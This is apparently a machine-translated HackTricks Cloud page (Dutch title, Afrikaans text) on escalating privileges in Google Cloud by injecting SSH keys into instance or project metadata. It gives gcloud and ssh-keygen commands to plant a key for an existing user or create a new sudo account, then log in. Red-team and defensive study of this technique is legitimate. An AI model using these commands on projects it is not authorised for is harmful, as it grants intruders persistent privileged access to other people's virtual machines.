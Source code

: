 # GCP - Voeg Aangepaste SSH Metadata Toe

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere manieren om HackTricks te ondersteunen:

* Als je je **bedrijf geadverteerd wilt zien in HackTricks** of **HackTricks wilt downloaden in PDF-formaat**, bekijk dan de [**ABONNEMENTSPAKKETTEN**](https://github.com/sponsors/carlospolop)!
* Koop de [**officiële PEASS & HackTricks merchandise**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), onze collectie exclusieve [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit je aan bij de** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of de [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel je hacktrucs door PR's in te dienen bij de** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Wysiging van die metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Die wysiging van metadata op 'n instansie kan lei tot **beduidende veiligheidsrisiko's as 'n aanvaller die nodige toestemmings verkry**.

### **Insluiting van SSH-sleutels in Aangepaste Metadata**

Op GCP voer **Linux-stelsels** dikwels skripte uit vanaf die [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). 'n Kritieke komponent hiervan is die [rekeninge-daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), wat ontwerp is om die instansie-metadata-eindpunt gereeld te **ondersoek vir bywerkings aan die gevolmagtigde SSH-publieke sleutels**.

Daarom kan 'n aanvaller, as hy aangepaste metadata kan wysig, die daemon 'n nuwe publieke sleutel laat vind wat verwerk en **geïntegreer word in die plaaslike stelsel**. Die sleutel sal bygevoeg word by die `~/.ssh/authorized_keys`-lêer van 'n **bestaande gebruiker of moontlik 'n nuwe gebruiker met `sudo`-bevoegdhede** afhangende van die sleutel se formaat. En die aanvaller sal die gasheer kan kompromitteer.

### **Voeg SSH-sleutel by bestaande bevoorregte gebruiker**

1. **Ondersoek Bestaande SSH-sleutels op die Instansie:**
- Voer die opdrag uit om die instansie en sy metadata te beskryf om bestaande SSH-sleutels op te spoor. Die relevante gedeelte in die uitset sal onder `metadata` wees, spesifiek die `ssh-keys`-sleutel.
```bash
gcloud compute instances describe [INSTANSIE] --zone [SONE]
```
- Let op die formaat van die SSH-sleutels: die gebruikersnaam kom voor die sleutel, geskei deur 'n kolon.

2. **Berei 'n tekslêer voor vir SSH-sleutelmetadata:**
- Stoor die besonderhede van gebruikersname en hul ooreenstemmende SSH-sleutels in 'n tekslêer met die naam `meta.txt`. Dit is noodsaaklik om die bestaande sleutels te behou terwyl nuwes bygevoeg word.

3. **Genereer 'n Nuwe SSH-sleutel vir die Teikengebruiker (`alice` in hierdie voorbeeld):**
- Gebruik die `ssh-keygen`-opdrag om 'n nuwe SSH-sleutel te genereer, en verseker dat die kommentaarveld (`-C`) ooreenstem met die teikengebruikersnaam.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Voeg die nuwe publieke sleutel by `meta.txt`, deur die formaat na te boots wat in die instansie se metadata gevind word.

4. **Werk die Instansie se SSH-sleutelmetadata op:**
- Pas die bygewerkte SSH-sleutelmetadata toe op die instansie deur die `gcloud compute instances add-metadata`-opdrag te gebruik.
```bash
gcloud compute instances add-metadata [INSTANSIE] --metadata-from-file ssh-keys=meta.txt
```

5. **Kry Toegang tot die Instansie met die Nuwe SSH-sleutel:**
- Maak verbinding met die instansie met SSH deur die nuwe sleutel te gebruik, en kry toegang tot die skul in die konteks van die teikengebruiker (`alice` in hierdie voorbeeld).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Skep 'n nuwe bevoorregte gebruiker en voeg 'n SSH-sleutel by**

As daar geen interessante gebruiker gevind word nie, is dit moontlik om 'n nuwe een te skep wat `sudo`-bevoegdhede sal kry:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH-sleutels op projekvlak <a href="#sshing-around" id="sshing-around"></a>

Dit is moontlik om die reikwydte van SSH-toegang tot verskeie virtuele masjiene (VM's) in 'n wolk-omgewing te verbreed deur **SSH-sleutels op projekvlak toe te pas**. Hierdie benadering maak SSH-toegang tot enige instansie binne die projek moontlik, tensy 'n VM uitdruklik projekwye SSH-sleutels geblokkeer het. Hier is 'n opsomming van die gids:

1. **Pas SSH-sleutels op projekvlak toe:**
- Gebruik die `gcloud compute project-info add-metadata` opdrag om SSH-sleutels vanaf `meta.txt` by die projek se metadata te voeg. Hierdie aksie verseker dat die SSH-sleutels erken word oor alle VM's in die projek, tensy 'n VM die "Block project-wide SSH keys" opsie geaktiveer het.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH na instansies met behulp van projekwye sleutels:**
- Met projekwye SSH-sleutels op hul plek kan jy SSH na enige instansie binne die projek maak. Instansies wat nie projekwye sleutels blokkeer nie, sal die SSH-sleutel aanvaar en toegang verleen.
- 'n Direkte metode om na 'n instansie SSH te maak, is deur die `gcloud compute ssh [INSTANCE]` opdrag te gebruik. Hierdie opdrag gebruik jou huidige gebruikersnaam en die SSH-sleutels wat op projekvlak ingestel is om toegang te probeer verkry.

# Verwysings
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks-uitrusting**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
